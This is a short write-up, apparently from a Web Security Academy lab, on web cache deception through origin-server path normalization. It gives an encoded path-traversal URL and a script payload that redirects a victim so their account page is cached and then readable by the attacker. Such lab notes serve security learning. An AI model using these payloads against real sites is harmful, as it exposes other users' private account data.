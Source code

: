 # Using origin server normalization to do web cache deception

If a server has a custom caching rule configured to store static assets under some directory, we can apply normalization discrepancy by crafting a path traversal URL:

```jsx
https://0ad800ea048821e0804ecb7e00db0074.web-security-academy.net/resources/labheader/images%2f..%2f..%2f..%2fmy-account
```

- Origin server applies normalization and processes `/resources/labheader/images%2f..%2f..%2f..%2fmy-account`  as `/my-account`
- Caching agent does not apply normalization and processes `/resources/labheader/images%2f..%2f..%2f..%2fmy-account`  as a static cacheable resource under `/resources` directory

That means we can trick a victim to cache a response with the sensitive data and then access it on our side.

```jsx
<script>document.location="https://0ad800ea048821e0804ecb7e00db0074.web-security-academy.net/resources/labheader/images%2f..%2f..%2f..%2fmy-account"</script>
```

After exploit delivering:

![image.png](Using%20origin%20server%20normalization%20to%20do%20web%20cache%20%201f9021737a89800a8dbfec2380826404/image.png)